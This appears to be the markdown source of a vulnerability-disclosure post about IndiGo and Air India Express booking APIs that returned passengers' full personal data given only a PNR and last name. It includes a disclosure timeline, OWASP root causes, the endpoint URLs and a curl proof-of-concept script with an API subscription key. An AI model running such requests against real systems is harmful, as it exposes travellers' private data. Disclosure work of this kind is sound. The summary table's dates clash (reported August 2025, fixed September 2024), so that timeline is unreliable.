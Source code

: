 ```yaml
---
title: Indigo Vulnerability 2022-2024 and Air india vulnerability 2025
date:
  created: 2025-08-13
  updated: 2025-09-12
---
```


<br>
Interglobe Indigo's manage booking portal(<https://www.goindigo.in/edit-booking.html>) and Air India Express (<https://www.airindiaexpress.com/manage>)
leaked a passenger's number, email, date of birth
address and emergency contact information by a PNR and name of a passenger. Even though the content is masked in the UI,
the network activity shows the full data.

This was originally reported to Indigo in 2022 but was not fixed.

- Tweet by [@_sirius93](https://twitter.com/_sirius93_) exposing this vulnerability in 2022 <https://twitter.com/_sirius93_/status/1508423479594733568>
- Tweet by Indigo denying this and not fixing the issue <https://twitter.com/IndiGo6E/status/1508748146717130758>
- News covering this incident

      - <https://economictimes.indiatimes.com/magazines/panache/how-indigo-passenger-hacked-into-carriers-website-to-track-his-missing-luggage-airline-responds/articleshow/90567643.cms?from=mdr>
      - <https://www.bbc.com/news/world-asia-india-60937480>
      - <https://www.ndtv.com/offbeat/indigos-response-after-techie-hacks-website-to-find-lost-luggage-2853781>
      - <https://www.livemint.com/news/india/passenger-hacks-indigo-s-website-to-find-lost-bag-airline-responds-11648690601840.html>

After reporting via email to Indigo in July 2024, an incomplete fix was implemented.

After reporting to CERT in November 2024, Indigo implemented a complete fix.

Air India warns its customers to not display PNR online in its tweets and asks them to share it via DMs.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [Indigo itinerary](#1-indigo-itinerary)  | 28 March 2022, 22 July 2024, 23 November 2024 | December 2024 | 1009, 162, 39 | 64401624 |
| 2  | [Air India RetrieveData](#2-air-india-retrievedata)  | 2 August 2025 | September 2024 | 30 | 25019125 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. Indigo itinerary

The body was a simple json with PNR and last name.

```text
https://api-prod-itinerary-skyplus6e.goindigo.in/v1/itinerary
```

<details>
<summary> Sample response</summary>
```json linenums="1" hl_lines="750-820"
---8<--- "docs/vuln/posts/content_indigo/indigo_vuln_1.json"
```
</details>

### 2. Air India RetrieveData

```bash title="sample_script.sh" linenums="1" hl_lines="5"
time=$(date '+%F_%T')
curl 'https://api.airindiaexpress.com/b2c-CheckIn/v2/mmb/retrieve/byRecordLocator' \
  -X POST \
  -H 'Ocp-Apim-Subscription-Key: fe65ec9eec2445d9802be1d6c0295158' \
  --data-raw '{"addtnlDetail":"$$$$$$$$$$","recordLocator":"$$$$$$$$$$","sessionType":"WebAnonUser"}' \
  -o bookings_$time.json
```

<details>
<summary> Sample response</summary>
```json linenums="1" hl_lines="119-190"
---8<--- "docs/vuln/posts/content_indigo/air_india_vuln_1.json"
```
</details>
